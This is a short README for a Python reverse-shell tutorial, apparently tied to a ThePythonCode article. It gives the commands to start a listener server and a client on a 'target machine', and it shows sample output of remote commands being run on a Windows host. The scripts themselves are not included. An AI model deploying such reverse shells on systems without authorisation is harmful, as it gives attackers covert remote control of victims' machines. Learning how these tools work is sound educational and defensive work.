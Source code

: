 # [How to Create a Reverse Shell in Python](https://www.thepythoncode.com/article/create-reverse-shell-python)
You don't need to install anything.
- To run the server, simply write:
    ```
    python server.py
    ```
    **Output:**
    ```
    Listening as 0.0.0.0:5003 ...
    ```
- Running the client (target machine):
    ```
    python client.py
    ```
    **Output:**
    ```
    Server: Hello and Welcome
    ```
- The server will get notified once a client is connected, executing `dir` command on Windows remotely (in `server.py`):
    ```
    192.168.1.103:58428 Connected!
    Enter the command you wanna execute:dir
    Volume in drive E is DATA
    Volume Serial Number is 644B-A12C

    Directory of E:\test

    09/24/2019  02:15 PM    <DIR>          .
    09/24/2019  02:15 PM    <DIR>          ..
                0 File(s)              0 bytes
                2 Dir(s)  89,655,123,968 bytes free
    Enter the command you wanna execute:exit
    ```
